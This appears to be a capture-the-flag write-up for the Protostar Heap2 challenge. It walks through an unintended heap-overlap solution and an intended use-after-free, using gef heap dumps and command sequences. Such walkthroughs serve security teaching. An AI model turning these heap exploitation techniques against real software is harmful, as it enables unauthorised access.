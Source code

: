 # Protostar Heap2
This challenge is broken an has an unintended solution, the intended one is a Use After Free. The objective is to **print** the message *you have logged in already!*.

## Binary
### Code
Decompiled with Binary Ninja HLIL.

![](img/main_hlil.png)

### Security 
All the protections are enabled.

```shell
$ checksec ./heap2
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution
Overwrite **auth+0x20** with a value different than 0.

### Unintended
If we check the real code the author intended that the malloc for auth was of the size of the following struct.
```c
struct auth {
  char name[32];
  int auth;
};
```
But since the code is naming *auth* a lot of different variables the size used in malloc is 8 which is not intended.

So if we just do an *auth* command followed by a *service* command, the heap chunk for *service* will be at exactly *auth+0x20*.

#### Heap chunks
```shell
gef➤  dereference 0x55aa796c86c0-0x10
0x000055aa796c86b0│+0x0000: 0x0000000000000000
0x000055aa796c86b8│+0x0008: 0x0000000000000021      <-------auth chunk
0x000055aa796c86c0│+0x0010: 0x0000000a72657375 ("user\n"?)
0x000055aa796c86c8│+0x0018: 0x0000000000000000
0x000055aa796c86d0│+0x0020: 0x0000000000000000
0x000055aa796c86d8│+0x0028: 0x0000000000000021      <-------service chunk
0x000055aa796c86e0│+0x0030: "thing_after_service\n" <-------auth+0x20
0x000055aa796c86e8│+0x0038: "fter_service\n"
0x000055aa796c86f0│+0x0040: 0x0000000a65636976 ("vice\n"?)
0x000055aa796c86f8│+0x0048: 0x000000000001f911
```
If we now issue a *login* command we will get the message *you have logged in already!*

### Intended
If we patch the binary so now it uses the correct size for malloc we can see that the unintended solution does not work anymore.

#### Heap chunks unintended solution
```shell
gef➤  dereference 0x56347a8046c0-0x10 12
0x000056347a8046b0│+0x0000: 0x0000000000000000
0x000056347a8046b8│+0x0008: 0x0000000000000031      <-------auth chunk
0x000056347a8046c0│+0x0010: 0x0000000a72657375 ("user\n"?)
0x000056347a8046c8│+0x0018: 0x0000000000000000
0x000056347a8046d0│+0x0020: 0x0000000000000000
0x000056347a8046d8│+0x0028: 0x0000000000000000
0x000056347a8046e0│+0x0030: 0x0000000000000000      <-------auth+0x20
0x000056347a8046e8│+0x0038: 0x0000000000000021      <-------service chunk
0x000056347a8046f0│+0x0040: "thing_after_service\n"
0x000056347a8046f8│+0x0048: "fter_service\n"
0x000056347a804700│+0x0050: 0x0000000a65636976 ("vice\n"?)
0x000056347a804708│+0x0058: 0x000000000001f901
```
So what we have to do is issue an *auth* command and follow it with a *reset* command which will free the auth chunk.

After that we can issue a *service* command with an argument longer than 0x20 which will give us a chunk at the same address as the freed auth chunk.

Finally, since the *login* command is using the auth chunk after it has been freed and it now equals our service chunk. When it checks *auth+0x20* it's actually *service+0x20* which we control with our argument to the *service* command.

#### Heap chunks intended solution
```shell
gef➤  dereference 0x55f7561b66c0-0x10
0x000055f7561b66b0│+0x0000: 0x0000000000000000
0x000055f7561b66b8│+0x0008: 0x0000000000000031      <-------service chunk & freed auth chunk
0x000055f7561b66c0│+0x0010: "service_paddingAAAAAAAAAAAAAAAA\n"
0x000055f7561b66c8│+0x0018: "_paddingAAAAAAAAAAAAAAAA\n"
0x000055f7561b66d0│+0x0020: "AAAAAAAAAAAAAAAA\n"
0x000055f7561b66d8│+0x0028: "AAAAAAAA\n"
0x000055f7561b66e0│+0x0030: 0x000000000000000a      <-------auth+0x20
0x000055f7561b66e8│+0x0038: 0x000000000001f921
0x000055f7561b66f0│+0x0040: 0x0000000000000000
0x000055f7561b66f8│+0x0048: 0x0000000000000000
```
 So if we issue a *login* command we will get our desired message, *you have logged in already!*.